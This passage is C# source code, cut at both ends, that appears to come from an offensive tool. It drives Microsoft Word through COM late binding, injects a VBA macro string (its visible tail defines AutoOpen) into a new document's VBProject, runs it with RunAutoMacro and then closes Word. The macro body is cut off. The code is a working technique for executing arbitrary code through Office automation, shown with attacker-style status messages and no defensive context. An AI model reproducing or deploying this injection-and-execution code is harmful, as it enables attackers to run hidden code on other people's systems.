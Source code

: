 ```cs
End Sub
Sub AutoOpen()
Execute
End Sub
";
        var obj = Activator.CreateInstance(type);

        var docs = obj.GetType().InvokeMember("Documents", BindingFlags.GetProperty, null, obj, null);
        foreach (var m in docs.GetType().GetProperties())
            if (m.Name == "Documents")
            {
                Console.WriteLine($" [+] Fetched: {m}");
                docs = m.GetValue(docs);
            }

        var doc = docs.GetType().InvokeMember("Add", BindingFlags.InvokeMethod, null, docs, new object[] { "" });
        // For some reason vbProject won't be initialized correctly with the following statement
        var vbProject = doc.GetType().InvokeMember("VBProject", BindingFlags.GetProperty, null, doc, null);
        Console.WriteLine(" [+] Setting up VBProject");

        foreach (var m in doc.GetType().GetProperties())
            if (m.Name == "VBProject")
            {
                Console.WriteLine($" [+] Fetched: {m}");
                vbProject = m.GetValue(doc);
            }

        var vbComponents = vbProject.GetType()
            .InvokeMember("VBComponents", BindingFlags.GetProperty, null, vbProject, null);
        var vbc = vbComponents.GetType()
            .InvokeMember("Add", BindingFlags.InvokeMethod, null, vbComponents, new object[] { 1 });

        Console.WriteLine(" [+] Loading Macro");

        var codeModule = vbc.GetType().InvokeMember("CodeModule", BindingFlags.GetProperty, null, vbc, null);
        codeModule.GetType().InvokeMember("AddFromString", BindingFlags.InvokeMethod, null, codeModule,
            new object[] { macro });
        // Run Macro
        doc.GetType().InvokeMember("RunAutoMacro", BindingFlags.InvokeMethod, null, doc, new object[] { 2 });
        // Shutdown Word
        obj.GetType().InvokeMember("Quit", BindingFlags.InvokeMethod, null, obj, null);
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```
